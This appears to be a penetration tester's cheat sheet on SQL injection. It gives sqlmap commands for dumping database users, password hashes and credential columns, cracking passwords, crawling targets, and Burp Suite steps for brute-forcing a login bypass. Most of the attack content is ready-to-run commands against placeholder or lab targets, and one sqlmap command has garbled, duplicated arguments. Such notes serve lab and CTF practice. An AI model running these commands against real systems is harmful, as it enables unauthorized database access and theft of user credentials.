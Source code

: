 ### SQL map cracking passwords

You may or may not know that sqlmap also has password cracking capabilities. By rerunning the dump on usernames and passwords alone, the tool can attempt to retrieve the clear text password of the machine users, not just the database users. Like so:

```
sqlmap -o -u "192.168.236.135:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords method=POST --level=3 --threads=10 --dbms=MySQL --dump

```
### Get

sqlmap -u "http://*target*/index.php?id=1" --dbms=mysql

### Crawl

sqlmap -u http://*target* --dbms=mysql --crawl=3

### Sql-login-bypass

https://xapax.gitbooks.io/security/content/sql-injections.html


1.	Open Burp-suite
2.	Make and intercept a request
3.	Send to intruder
4.	Cluster attack.
5.	Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
6.	Attack
7.	Check for response length variation


Refer to your kindle 
•	SQL Injection Attacks and Defense
•	The browser hacker handbook 

```



```


### burp SQL map Login trick


open up burp and intercept that login page with admin & admin

copy the intercepted text out and paste it into a burp-post.txt

```
sqlmap --level=5 --risk=2 -r burp-post.txt --dbs

sqlmap -o -r burp-post.txt -D Webapp --tables

sqlmap -o -r burp-post.txt -D Webapp -T Users --columns

sqlmap -o -r burp-post.txt -D Webapp -T Users -C id,username,password --dump

OR

sqlmap -o -r burp-post.txt -D Webapp -T Users --dump

sqlmap -o -r burp-post.txt -D mysql --tables

sqlmap -o -r burp-post.txt -D mysql -T user -C User,Password --dump

```